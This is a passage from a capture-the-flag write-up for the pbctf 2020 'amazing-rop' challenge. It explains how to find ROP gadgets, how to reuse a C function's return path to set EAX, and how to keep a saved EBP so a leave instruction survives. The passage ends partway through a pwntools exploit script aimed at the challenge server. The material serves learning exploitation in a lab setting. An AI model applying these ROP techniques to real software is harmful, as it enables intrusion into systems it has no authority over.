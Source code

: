 As for the gadgets themselves, we can easily locate a gadget to move arbitrary values from our input into the EDI and ESI registers with `pop esi; pop edi; pop ebp; ret`.
The breakpoint instruction is simply the single byte 0xcc.

The tricky gadget to find and use is the `mov eax, 0x1`.
ROPgadget produces only one promising result: `mov eax, 1 ; jmp 0x1427`.

If we look back at the source code, we can see one obvious place in the `prompt` function where EAX will get set to the value 1.

```c
int prompt(char *prompt, int def) {
    char buff[32];

    printf("%s", prompt);
    fgets(buff, sizeof(buff), stdin);
    if (buff[0] == 'Y' || buff[0] == 'y')
        return 1;  // Set EAX = 1
    else if (buff[0] == 'N' || buff[0] == 'n')
        return 0;
    else
        return def;
}
```

The gadget we found is part of the instructions for this particular return statement.
If we look at the output from objdump we can see that the jump instruction is followed by a meaningless memory read, a `leave` instruction, and then it reaches a return.

![objdump](https://raw.githubusercontent.com/starfleetcadet75/writeups/master/2020-pbctf/amazing-rop/objdump.png)

This gadget will work, we just need to fiddle with our junk values to ensure that the `leave` instruction doesn't segfault.
The `leave` instruction is essentially the same as the sequence `mov esp, ebp; pop ebp`.
This means that it will set ESP to some value that we overwrote with junk in our shellcode.

To fix this problem, we once again use the stack visualization as a leak to save the original value of EBP before it gets trashed.
The saved EBP address is put in the ROP chain following the gadget so that the `leave` instruction can execute correctly.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./bof.bin")
context.binary = exe

def conn():
    if args.LOCAL:
        return gdb.debug(exe.path)
    else:
        return remote("maze.chal.perfect.blue", 1)

pop3ret = 0x00000396  # pop esi; pop edi; pop ebp; ret
moveax = 0x00000401  # mov eax,0x1; jmp 1422; mov ebx,DWORD PTR [ebp-0x4]; leave; ret
int3 = 0x00000760  # cc

def main():
    r = conn()
    print(r.clean())
    r.sendline("n")

    # Get the base address from the leak
    leak = r.recvuntil(b"Input")
    line = leak.decode().split("\n")[-3]
```